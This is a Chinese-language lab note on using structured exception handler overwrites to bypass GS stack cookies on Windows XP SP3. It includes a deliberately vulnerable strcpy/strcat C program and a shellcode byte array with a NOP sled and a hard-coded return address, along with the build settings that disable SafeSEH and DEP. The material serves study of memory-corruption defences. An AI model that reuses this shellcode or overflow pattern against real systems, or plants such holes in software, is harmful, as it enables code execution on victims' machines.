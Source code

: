 ## 利用异常处理器绕过GS

如果只是将SEH_handler覆盖为shellcode地址在win xp sp3上并不能成功，因为在sp3上负责异常分发的（不知道这样说对不对）ntdll.dll启用了SafeSEH，会对SEH_handler指向的异常处理函数的地址进行校验，如果是在栈的地址范围内将不会得到执行。所以我只能从侧面验证利用异常处理器绕过GS是否可行。我将用一个栈外的地址来覆盖SEH_handler，如果程序能运行到这个地址，则认为在没有SafeSEH保护的情况下可以利用异常处理器来绕过GS。

```c
//文件名GS_SEH.cpp
#include <string.h>
#pragma warning(disable : 4996)
char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xCC\xCC\xCC\xCC"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xA0\xFE\x12\x00"//address of shellcode
//"\x13\x13\x13\x00"//栈外的地址
;

void test(char* input)
{
	char buf[200];
	strcpy(buf, input);
	strcat(buf, input);
}
void main()
{
	test(shellcode);
}
```
编译代码选项
- 1.启用GS
- 2.关闭SafeSEH
- 3.关闭DEP
上面代码在test函数中存在典型的栈溢出漏洞，strcpy操作后buf变量会被溢出，当字符串足够长时将覆盖SEH异常处理函数。同时也会覆盖input地址，造成strcat从一个非法地址读取数据，触发异常。用OD加载程序之后，按F9运行程序。如下图会产生访问异常并且确实已经将SEH成功覆盖为0x0012FEA0。按照提示**shift+F9**让异常处理来接管程序，OD提示**Debugged program was unable process exection**，并不能成功让异常处理程序执行。

